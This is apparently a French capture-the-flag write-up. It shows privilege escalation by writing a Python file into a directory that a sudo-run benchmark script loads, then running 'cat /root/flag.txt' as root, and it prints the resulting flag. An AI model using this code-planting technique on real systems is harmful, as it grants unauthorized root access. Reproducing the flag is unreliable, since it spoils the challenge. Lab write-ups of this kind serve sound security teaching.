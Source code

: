 ```bash
du@64ba5b5db76f:~$ vi /home/du/app/bench/runbench.py
bash: vi: command not found
du@64ba5b5db76f:~$ echo "test" >> /home/du/app/bench/runbench.py
bash: /home/du/app/bench/runbench.py: Permission denied
```

Mince :/

Mais en le lisant de plus prêt on voit que ce script de benchmark éxecute les script dans le répertoir script en suivant ce regex:

```python
_filename_re = re.compile(r"^bench_(.*?)\.py$")
new_bench_directory = "/home/du/app/script/"
```

Et sachant que nous avons les droits en écriture dans le dossier nous pouvons tout simplement faire:

```bash
echo '__import__("os").system("cat /root/flag.txt")' > /home/du/app/script/bench_abc.py
```

Puis ...

```bash
du@5f8d37767546:~$ sudo /home/du/app/bench/runbench.py
================================================================================
Running benchmark for the Big Event Tok Duuuuuu !!!!
--------------------------------------------------------------------------------
abc
MCTF{t0k_Gw3n_Du_2025!!!}
Traceback (most recent call last):
  File "/usr/lib/python3.11/timeit.py", line 326, in main
    number, _ = t.autorange(callback)
                ^^^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/timeit.py", line 224, in autorange
    time_taken = self.timeit(number)
                 ^^^^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.11/timeit.py", line 178, in timeit
    timing = self.inner(it, self.timer)
             ^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "<timeit-src>", line 3, in inner
    from bench_abc import run
ImportError: cannot import name 'run' from 'bench_abc' (/home/du/app/script/bench_abc.py)
--------------------------------------------------------------------------------
```

Voilà le flag !!!!

```
MCTF{t0k_Gw3n_Du_2025!!!}
```
